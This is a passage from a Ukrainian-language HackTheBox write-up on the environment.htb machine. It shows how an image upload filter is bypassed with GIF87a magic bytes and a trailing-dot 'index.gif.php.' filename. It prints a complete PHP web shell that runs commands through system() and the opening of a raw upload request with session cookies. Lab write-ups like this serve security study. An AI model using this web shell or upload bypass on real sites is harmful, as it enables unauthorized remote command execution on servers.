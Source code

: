 В основному є один dev аккаунт, під яким ми входимо: hish@environment.htb

І єдина функціональність там - це завантажити зображення профілю, надіславши POST запит на `environment.htb/upload` ендпоінт.

## Обхід завантаження файлів

Спроба завантажити звичайний PHP шел не спрацює, тому що бекенд перевіряє 'magic bytes' всередині вмісту файлу, щоб перевірити, чи є файл справжнім зображенням чи ні. 

Тому нам потрібно знайти спосіб обійти ці перевірки і якось завантажити наш шелл.

### Завантаження php reverse shell

Я використаю цей сайт з різним набором віддалених шеллів під різні мови: https://www.revshells.com/
В даному випадку оскільки сайт працює на PHP, я вибрав собі такий:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Бекенд ймовірно має погану regex перевірку параметра filename, тому що я зміг завантажити файл з назвою `index.gif.php.` з крапкою в кінці, PHP cmd шелом всередині і magic bytes в запиті для обходу перевірки типу MIME.

Для того, щоб обійти перевірку на magic bytes достатньо просто додати перед нашим шеллом рядок `GIF87a` для типу файлів gif, та, також, додати крапку в кінці назви файлу, яка обрізається на стороні серверу й перетворюється на звичайний `index.gif.php`

```http
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 680
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyqgqevjtjeuKysRj
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6InpRTit5azYwcm1kcnl3SUgxVUlqa2c9PSIsInZhbHVlIjoiTytCOG9rclVwNkdVdDVQQnVoVEVTelRJZVpKK1pHb2k2UzlvWEIrekw3YzhjNTRKNDFBYkU2Q0tRbnZhRkVncjQwN1NxWU4wV0FhL0E3RjM2dWdaTTFsT1EvT1lXcXplR3BmMTRGWDdXb3ZuMmhlS2U4bjFvOTNHMk51S01PLzQiLCJtYWMiOiI0MmM3MjczZjkxYjA5ZTRiNmM4ZWJjNDFiNWY2ODE2MzI4YWI5NzYzNmU0YjJiZDBkOTEyY2JhYmFlNDIxNDUyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImJZaWFGWFBKRk80ZGkycXVVRXhpK2c9PSIsInZhbHVlIjoidlp0SEpSdGFkeTJkYnRETzNGc0Q4MkgwTzFhSWpTYXNzWVdmU3lHK3A0WHEwQUpkZ1dkSzNPM2E2RmZoVkZZZnZNZnFqWjcxNmR3emxTSXF3N2E0YWJNVndxazhuY081NUpPeWpFcW1MMU5FSVp5WW9RVGFjcCtJK0wzOUYydmciLCJtYWMiOiIxMWVjZmM1NTM5NWI0ZGMzMDhlMTM2YTkwNjZhNTI4Y2FjMGEyOGVmZDFkNTBiYWQxNTAyZmViNTAwMDliODFiIiwidGFnIjoiIn0%3D
Connection: keep-alive

```